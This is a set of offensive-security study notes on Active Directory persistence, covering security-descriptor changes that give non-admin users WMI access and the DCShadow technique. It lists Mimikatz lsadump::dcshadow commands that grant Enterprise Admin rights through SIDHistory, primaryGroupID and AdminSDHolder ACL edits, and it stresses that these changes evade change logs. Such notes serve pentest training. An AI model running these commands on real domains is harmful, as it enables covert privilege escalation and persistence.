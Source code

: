 ## Security Descriptors
- It is possible to modify Security Descriptors of remote access methods to allow access to non-admin users
- Requires administrative privileges
- Security Descriptor Definition Language (SDDL) defines the format used to describe a Security Descriptor (SD)
    - Uses ACE strings for DACL and SACL
    - ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid
- ACE for built-in administrators for WMI namespaces:
    - A;CI;CCDCLCSWRPWPRCWD;;;\$SID

### WMI
- Authentication
    - Must have privileges to connect to DCOM endpoint
    - Must have privileges to connect to namespace
- ACLs can be modified to allow non-admin users access to securable objects

References Set-RemoteWMI.ps1 and Set-RemotePSRemoting.ps1



# Forest Persistence

## DCShadow
- Temporarily registers a new domain controller in the target domain and uses it to "push" attributes like SIDHistory, SPNs, etc. on specified objects without leaving the changelogs for modified object(s)
- New domain controller is registered by modifying the Configuration Container, and SPNs of an existing computer object and some RPC services
- Because the attributes are changed from a "domain controller", there are no directory change logs on the actual DC for the target object
- DA privileges required (in most scenarios)
- Attacker machine must be part of the root domain
- When you make a machine a Domain Controller, a 4742 log will be left on the real domain controller(s)
- 2 Mimikatz Instances are required
    - One to start RPC servers with SYSTEM privileges and specify attributes to be modified
    - One with enough privileges to push the values

### First window:
```
!+
!processtoken
lsadump::dcshadow /object:$Object /attribute:$Attribute /value="$Value"
```

|Command|Description|
|---|---|
|lsadump::dcshadow /object:\$Username /attribute:SIDHistory /value:\$EnterpriseAdminSID|Set SID of \$Username to Enterprise Admin group|
|lsadump::dcshadow /object:\$Username /attribute:primaryGroupID /value:519|Set primaryGroupID to 519 (Enterprise Admin)|
|lsadump::dcshadow /object:\$ldappathtoAdminSDHolder /attribute:ntSecurityDescriptor /value:\$ModifiedACL|Append Full Control ACE for SY/BA/DA with our user's SID at the end|
